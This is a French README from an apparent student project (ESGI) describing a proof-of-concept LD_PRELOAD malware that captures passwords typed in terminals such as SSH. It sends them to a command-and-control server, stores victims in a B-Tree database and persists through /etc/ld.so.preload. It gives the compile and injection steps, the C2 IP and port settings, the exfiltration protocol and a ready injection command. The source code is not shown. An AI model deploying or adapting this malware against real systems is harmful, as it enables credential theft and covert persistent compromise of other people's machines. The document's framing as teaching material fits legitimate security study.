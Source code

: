 # 🐍 Projet Malware LD_PRELOAD + Serveur C2 avec Base B-Tree (ESGI 3SIJ)

## 👥 Auteurs

- **Angelov Onur**
- **Slimani Anis**

---

## 🧠 Description du projet

Ce projet est une preuve de concept (POC) de malware utilisant la technique `LD_PRELOAD`. Il permet :

- l’interception de mots de passe saisis dans le terminal (ex : SSH),
- l’exfiltration vers un serveur distant C2,
- l’enregistrement persistant dans une base de données en **C** utilisant une structure en **B-Tree**.

---

## 🚀 Clonage du projet

```bash
git clone https://github.com/Runo76/CC1-DATABASE-ESGI
cd CC1-DATABASE-ESGI
```

---

## 📁 Structure du projet

```text
CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── add_to_ldso.sh        # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2

### 🛠️ Prérequis

Installer le serveur SSH :

```bash
sudo apt update
sudo apt install openssh-server
```

Changer le port SSH (optionnel, exemple : `Port 5555`), puis redémarrer :

```bash
sudo nano /etc/ssh/sshd_config
sudo systemctl enable ssh
sudo systemctl start ssh
```

### 🔧 Compilation du serveur et de la base

**Terminal 1 – Compilation de la base BTree:**

```bash
cd BTreeDB
make clean
make
```

**Terminal 2 – Compilation du serveur:**

```bash
cd server
make clean
make
```

### 🚀 Lancement du serveur C2

```bash
./server
```

Le serveur écoute sur le port `5555`. Il reçoit :

- `register <hostname> <password>` → inséré dans la base
- `log <hostname> <commande>` → affiché dans le terminal

---

## 💻 VM 2 – Malware LD_PRELOAD (IP a modifier)

### 🛠️ Prérequis

```bash
sudo apt update
sudo apt install openssh-server
```

### ⚙️ Configuration du malware

Dans le fichier `send_to_c2.c`, modifier :

```c
#define C2_IP "192.168.1.20"
#define C2_PORT 5555
```

---

### 🔧 Compilation et injection automatique

```bash
cd LD_PRELOAD/malware
make
chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
```

> Ce script ajoute le chemin absolu de `malware.so` dans `/etc/ld.so.preload`.

---

## 🐚 Fonctionnalités du malware

| Fonction                        | Description                                                                                 |
|---------------------------------|---------------------------------------------------------------------------------------------|
| 🔑 Exfiltration de mot de passe | Intercepte les entrées `password:` dans un terminal                                         |
| 📦 Envoi vers serveur C2        | Envoie les credentials avec : `register <hostname> <password>`                             |
| 🚫 Blocage fichiers sensibles   | Bloque l'accès à `/etc/passwd`, `/etc/shadow` (via `open()`) même en `sudo`                |
| 💾 Persistance en B-Tree        | Enregistrement dans `database.db` avec un ID unique                                         |
| 🧠 Injection SSH testable       | Exemple : `LD_PRELOAD=./malware.so ssh user@192.168.1.xx`                                  |
| 🔁 Injection automatique        | Ajout dans `/etc/ld.so.preload` pour persistance même après reboot                         |

---

## 📊 Vérification de la base (sur la VM C2)

```bash
cd BTreeDB
./db
```

Lancer la commande dans la CLI :

```
select
Autre commande disponible detaillé dans le README.md du dossier BTreeDB
```

> Résultat exemple :
```
(1, anisdebian, 1478)
(2, onur, 1234)
```

---

## 🧪 Exemple de test complet

1. **Lancer le serveur sur la VM 1** :

```bash
(Après compilation db et server)
cd server
./server
```

2. **Sur la VM 2 (malware)** :

```bash
cd LD_PRELOAD/malware
make
chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
```

3. **Effectuer une commande avec mot de passe :**

```bash
LD_PRELOAD=./malware.so ssh user@192.168.1.xx
```

> Le mot de passe sera intercepté et envoyé au serveur.

4. **Vérifier dans la base (VM1) :**

```bash
cd BTreeDB
./db
> select
```

---

## ❌ Désactivation du malware

```bash
sudo rm /etc/ld.so.preload
```

---

## 📎 Remarques

- Le fichier `database.db` est mis à jour automatiquement à chaque nouvelle victime.
- Le projet fonctionne dans un environnement contrôlé (POC pédagogique).
